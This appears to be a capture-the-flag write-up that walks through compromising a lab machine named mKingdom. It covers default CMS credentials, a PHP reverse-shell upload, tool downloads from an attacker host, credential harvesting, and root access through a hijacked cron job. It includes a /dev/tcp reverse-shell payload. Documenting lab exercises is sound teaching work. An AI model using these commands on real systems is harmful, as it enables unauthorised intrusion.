mKingdom
Reconnaissance¶
I began by running an Nmap scan to identify open ports and services on the target machine:
nmap -sC -sV 10.10.154.223
This revealed an open port and service to investigate further.

Enumeration¶
I Visited the web service on the target and surfed it

I used gobuster to perform directory enumeration, which revealed an /app directory.

Navigating the site, I found a jump link redirecting to the /castle directory.

Using Wappalyzer, I identified the CMS used on the site as Concrete CMS 8.5.2.

At the bottom of the /castle directory, there was a login link.

Knowing the CMS as concrete5, I researched default credentials and found admin:password worked.

Exploitation: Concrete CMS Remote Code Execution¶
Researching the CMS version uncovered a known vulnerability (HackerOne reference) allowing file upload exploitation by:
- Adding
phpto the allowed file types under "Allow File Types".

- Uploading a PHP reverse shell (PentestMonkey’s reverse shell).

-
Configuring the shell with the attacker’s IP (LHOST) and listening port.
-
Launching a Netcat listener to catch the reverse shell.
-
Triggering the uploaded file to obtain a shell.

Initial Shell and Privilege Enumeration¶
After capturing the shell, I stabilized it using:

python -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z stty raw -echo fg export SHELL=/bin/bash export TERM=screen stty rows 38 columns 116 reset
I then uploaded linpeas.sh for privilege escalation enumeration:
# Attacker machine
python3 -m http.server 8000
# Target machine
wget http://<attacker-ip>:8000/linpeas.sh
LinPEAS revealed credentials in a configuration file:

<?php
return [
'default-connection' => 'concrete',
'connections' => [
'concrete' => [
'driver' => 'c5_pdo_mysql',
'server' => 'localhost',
'database' => 'mKingdom',
'username' => 'toad',
'password' => 'toadisthebest',
'character_set' => 'utf8',
'collation' => 'utf8_unicode_ci',
],
],
];
Noticing MySQL on port 3306 and port 631 open locally, I port-forwarded MySQL using Chisel:

# Attacker machine
chisel server --reverse --port 5555

# Target machine
./chisel client <attacker-ip>:5555 R:127.0.0.1:3306

This allowed me to connect to the database remotely and explore.

Lateral Movement and Further Enumeration¶
Logging into MySQL with the discovered credentials yielded no useful data, so I switched users to toad using the password found earlier:
su toad
# Password: toadisthebest`
Rerunning LinPEAS as user toad uncovered a suspicious Base64 string in an environment variable:
PWD_token=aWthVGVOVEFOdEVTCg==

echo "aWthVGVOVEFOdEVTCg==" | base64 -d
# Output: ikaTeNTANtES`
This turned out to be the password for user mario, allowing me to switch to mario. Though the flag was protected by permissions, copying it to /tmp allowed me to read it.

Persistence and Root Access¶
To identify ongoing system activity, I uploaded and ran pspy64 to monitor running processes in real-time:
# Attacker machine
python3 -m http.server 8000
# Target machine
wget http://<attacker-ip>:8000/pspy64
chmod +x pspy64
./pspy64
This revealed a root cron job running every minute that fetched and executed a remote shell script via:
curl mkingdom.thm:85/app/castle/application/counter.sh

Seeing that /etc/hosts was writable, I redirected mkingdom.thm to my IP by modifying /etc/hosts. I experienced issues when trying to modify the file using text editors like nano, I thus ran the command below
tee /etc/hosts > /dev/null <<EOF
127.0.0.1 localhost
10.9.3.255 mkingdom.thm
127.0.0.1 backgroundimages.concrete5.org
127.0.0.1 www.concrete5.org
127.0.0.1 newsflow.concrete5.org
# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
EOF
I hosted a malicious version of counter.sh, containing a reverse shell payload, on a Python HTTP server that replicated the expected path. i.e app/castle/application/counter.sh.
I started the server at the folder containing app, which was mKingdom, i.e mKingdom/app/castle/application/counter.sh

The payload was:
#!/bin/bash
bash -c 'exec bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1'
When the cron job executed, it retrieved and ran my payload as root, granting me a root shell and full control of the machine.

I then copied the flag to the /tmp directory from where I was able to read the flag
